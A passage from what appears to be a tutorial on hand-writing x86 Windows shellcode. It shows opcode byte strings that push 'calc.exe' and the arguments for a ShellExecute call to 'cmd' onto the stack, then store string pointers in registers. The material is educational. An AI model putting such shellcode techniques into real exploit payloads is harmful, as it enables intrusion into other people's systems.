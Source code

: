3. **Convert to ASCII**
```
"\x2e\x65\x78\x65"    => ".exe"
"\x63\x61\x6c\x63"    => "calc"
```

4. **Add PUSH bytecode**
```
"\x68\x2e\x65\x78\x65"    // PUSH ".exe"
"\x68\x63\x61\x6c\x63"    // PUSH "calc"
```

5. **Terminate the String**
```
"\x68\x20\x20\x20\x00"    // The \x00 is the terminator, while \x20 is SPACE
"\x68\x2e\x65\x78\x65"    // PUSH ".exe"
"\x68\x63\x61\x6c\x63"    // PUSH "calc"
```

6. Save the String Pointer to Registers
```
"\x68\x20\x20\x20\x00"    // The \x00 is the terminator, while \x20 is SPACE
"\x68\x2e\x65\x78\x65"    // PUSH ".exe"
"\x68\x63\x61\x6c\x63"    // PUSH "calc"
"\x8B\xDC"                // MOV EBX, ESP
```


**Tips:**
- [Opcode reference](https://defuse.ca/online-x86-assembler.htm#disassembly) or Metasm
- Pushing byte opcode : `\x6A`
- Pushing word or dword opcode : `\x68`
- [List of opcodes for other types](https://c9x.me/x86/html/file_module_x86_id_269.html)

###### 6.1.2 Example
**Example:**
1. We want to run : `ShellExecute(0,"open,"cmd", NULL,0,SW_MAXIMIZE);`
- Pushing strings into registers
```
"\x68\x63\x6d\x64"       => PUSH "cmd"
"\x68\x6f\x70\x65\x6e"   => PUSH "open"
```

```
"\x68\x63\x6d\x64\x00"   => PUSH "cmd"
"\x6A\x00"               => Terminates "open"
"\x68\x6f\x70\x65\x6e"   => PUSH "open"
```

Since the *ShellExecuteA* function arguments require a pointer to these strings (and not the string itself), we will have tot save a pointer to each string using a register.

Therefore, after pushing the strings to the stack, we will save the current stack position into a register (such as **EBX** or **ECX**). Hence, it will point to the string itself

```
"\x68\x63\x6d\x64\x00"   // PUSH "cmd"
"\x8B\xDC"               // MOV EBX, ESP
"\x6A\x00"               // Terminates "open"
"\x68\x6f\x70\x65\x6e"   // PUSH "open"
"\x8B\xCC"               // MOV ECX, ESP
```
